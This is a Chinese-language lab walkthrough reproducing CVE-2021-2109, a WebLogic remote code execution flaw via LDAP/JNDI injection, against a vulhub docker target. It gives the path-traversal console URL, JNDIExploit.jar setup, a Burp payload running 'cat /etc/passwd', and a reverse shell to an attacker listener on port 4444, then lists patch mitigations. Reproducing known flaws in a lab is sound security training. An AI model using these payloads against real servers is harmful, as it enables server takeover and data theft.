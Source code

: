 # CVE-2021-2109 WebLogic LDAP远程代码执行漏洞

## Description

2020年11月19日，阿里云安全向Oracle官方报告了Weblogic Server远程代码执行漏洞，漏洞编号为CVE-2021-2109。攻击者可通过LDAP协议，实现JNDI注入攻击，加载远程CodeBase下的恶意类，最后执行任意代码从而控制服务器。通过实验掌握WebLogic LDAP远程代码执行漏洞的利用方法。

## 漏洞影响

* WebLogic Server 10.3.6.0.0
* WebLogic Server 12.1.3.0.0
* WebLogic Server 12.2.1.3.0
* WebLogic Server 12.2.1.4.0
* WebLogic Server 14.1.1.0.0

## Explanation of exploit; PoC

### 运行靶场环境

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2020-14882
docker-compose up -d
```

访问 `http://your-ip:7001`，看到如下页面即为靶场正常运行。

![](images/cve-2021-2109-1.png)

### 漏洞复现

访问URL: `http://xxx.xxx.xxx.xxx:7001/console/css/%2e%2e%2f/consolejndi.portal`, 可以看到如下页面，且在影响范围内则可能存在漏洞。

![](images/cve-2021-2109-2.png)

下载漏洞攻击需要的一款用于JNDI注入利用的工具，该工具大量参考/引用了 Rogue JNDI 项目的代码，支持直接植入内存shell，并集成了常见的bypass 高版本JDK的方式，适用于与自动化工具配合使用。

![](images/cve-2021-2109-3.png)

- 使用 `java -jar JNDIExploit.jar -h` 查看参数说明，其中 `--ip` 参数为必选参数
- 使用 `java -jar JNDIExploit.jar -u` 查看支持的 LDAP 格式

在 kali 运行工具启动 LDAP 服务，`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i xxx.xxx.xxx.xxx`，其中 `xxx.xxx.xxx.xxx` 为 kali 的 IP 地址。

![](images/cve-2021-2109-4.png)

**RCE**

刷新 `http://xxx.xxx.xxx.xxx:7001/console/css/%2e%2e%2f/consolejndi.portal` 页面，并通过 Burp Suite 拦截请求，发送到 Repeater，修改 `URL` 为 `/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
`，并添加参数 `cmd` 值为 `cat /etc/passwd`，点击 `Send`，即可看到如下页面，即为成功利用漏洞。

???+ tip "Payload 注意"
    
    `ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho` 这里 LDAP服务器地址第三个分隔符号为 `;`

![](images/cve-2021-2109-5.png)

**反弹 Shell**

先在 kali 监听 4444 端口，`nc -lvvp 4444`

然后在 Burp Suite 中修改 `URL` 为 `/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/ReverseShell/xxx.xxx.xxx.xxx/4444;AdminServer%22)`

???+ tip "Payload 注意"
    
    `ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho` 这里 LDAP服务器地址第三个分隔符号为 `;`

![](images/cve-2021-2109-6.png)

看到如下页面，即为成功利用漏洞。

![](images/cve-2021-2109-7.png)

## Mitigation

![](images/cve-2021-2109-8.png)

1. 由于是通过JNDI注入进行远程代码执行，建议升级Weblogic Server运行环境的JDK版本；
2. 升级官方安装补丁：[https://www.oracle.com/security-alerts/cpujan2021.html](https://www.oracle.com/security-alerts/cpujan2021.html)

## 参考链接

1. [漏洞分析见](https://mp.weixin.qq.com/s/wX9TMXl1KVWwB_k6EZOklw)
2. [调试分析参考](https://mp.weixin.qq.com/s/WtoUzPEgLlU8jUzvzC75Dg)
3. [Oracle 发布2021年1月关键补丁更新，修复多个严重漏洞](https://mp.weixin.qq.com/s/gRgrzgkgeehT1DnnlnqQKw)